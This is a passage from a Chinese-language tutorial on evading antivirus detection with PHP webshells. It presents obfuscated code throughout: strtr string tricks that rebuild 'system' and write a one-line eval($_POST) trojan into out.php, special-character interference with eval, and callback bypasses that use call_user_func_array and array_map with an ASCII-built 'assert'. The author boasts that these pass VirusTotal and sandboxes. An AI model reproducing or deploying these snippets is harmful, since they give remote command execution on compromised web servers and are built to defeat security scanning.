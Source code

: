 首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem` 高危函数了，可以配合其他姿势一起使用，达成免杀效果

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null和空白字符等）

```php
$f = 'hello';
$$z = $_POST['aabyss'];
eval(``.$hello);
```

## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该PHP本身没法执行命令，但是运行后可以在同目录混淆写入一个WebShell，也是可以进行免杀的：

```php
$hahaha = strtr("abatme","me","em");      //$hahaha = abatem
$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）
$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");
//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'
$wahaha($gogogo);  //将一句话木马内容写入同目录下的out.php中
```

现在看这个是不是很简单，但是这个可是VirusTotal全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

### 4.1 call_user_func_array()

```php
//ASCII编码解密后为assert高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
call_user_func_array($f, array($_POST['aabyss']));
```

### 4.2 array_map()

```php
function fun() {
    //ASCII编码解密后为assert高危函数
	$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
	return ''.$f;
}
$user = fun();    //拿到assert高危函数
$pass =array($_POST['aabyss']);
array_map($user,$user = $pass );
```

回调函数的免杀早早就被WAF盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

## 5# 可变变量绕过

